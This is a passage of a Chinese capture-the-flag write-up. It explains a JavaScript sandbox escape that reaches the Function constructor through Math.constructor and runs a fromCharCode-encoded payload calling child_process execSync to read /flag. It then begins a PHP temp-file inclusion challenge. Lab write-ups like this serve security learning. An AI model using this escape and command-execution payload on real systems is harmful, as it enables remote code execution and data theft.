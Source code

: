 ```
test=Math.constructor //传入的Math是string，返回string类型的原型，String[function String()]
test2=test.constructor //返回string原型的原型，Function[funciton Function]
```

- 也就是通过一个 `object1` 从原型链上获取了`String`和`Function`两种类型

 

回到题目，

```
#fromCharCode函数必须是在String类型上用，也就是String.fromCharCode()
Math=Math.constructor
  #定义了string类型
Math=Math.construtor
  #定义了function类型
Math.constructor,Math=Math.constructor(Math.fromCharCode(97,108,101,114,116,40,49,41))()
等同于
function(string.fromCharCode(xxxxxxxxx)()
```

exp中fromCharCode里面解码是：

```
return process.mainModule.require('child_process').execSync('cat /flag').toString()
```

相当于我们执行了：

```
function(
return process.mainModule.require('child_process').execSync('cat /flag').toString()
)()
```

flag{7683e76d-e61e-4b5a-bca0-3ad38bfa27a0}

 

 

 

### [ezinclude](https://buuoj.cn/challenges#[NPUCTF2020]ezinclude)

考点：MD5哈希长度拓展攻击（疑似）、PHP7利用php Segfault包含保存的临时文件

打开题目，源代码里面有提示：`<!--md5($secret.$name)===$pass -->` 疑似[MD5哈希长度拓展攻击](https://xz.aliyun.com/t/2563)，不过在响应包里面给出啦pass的值，可能是出题出翻车了

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120170244.png)

得到了 `flflflflag.php` ，访问重定向到了其他页面，抓包抓回来，页面提示 `include($_GET["file"])` ，扫目录可以得到 `dir.php` ,包含他可以看到这个页面列出了 `/tmp` 下的所有文件

这里考察的是PHP临时文件包含，其基本是两种情况：

1. 利用能访问的phpinfo页面，对其一次发送大量数据造成临时文件没有及时被删除
2. PHP版本<7.2，利用php崩溃留下临时文件
